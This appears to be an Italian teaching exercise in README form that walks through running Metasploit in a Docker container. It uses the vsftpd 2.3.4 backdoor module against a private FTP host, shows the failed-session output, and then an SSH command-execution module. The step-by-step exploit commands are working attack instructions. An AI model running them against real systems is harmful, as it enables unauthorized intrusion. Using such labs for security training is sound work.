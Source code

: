 # 🧪 Esercizio Metasploit su Play with Docker

## 🎯 Obiettivo
Simulare un attacco didattico con Metasploit Framework in ambiente Docker, usando exploit contro un servizio FTP vulnerabile e osservando il comportamento del framework.

---

## 🐳 1. Avvio del container Metasploit

Nel terminale PWD:

```bash
docker run --rm -it metasploitframework/metasploit-framework

💻 2. Avvio della console Metasploit
msfconsole

🔍 3. Ricerca exploit FTP

search ftp

use exploit/unix/ftp/vsftpd_234_backdoor

⚙️ 4. Configurazione dei parametri

show options

set RHOSTS 192.168.1.100
set RPORT 21

🚀 5. Esecuzione dell’exploit

exploit

[*] Exploit completed, but no session was created.


🧪 6. Alternativa: modulo SSH
use exploit/unix/ssh/sshexec
set RHOSTS 192.168.0.34
set RPORT 22
set USERNAME foot
set SSH_COMMAND whoami
exploit


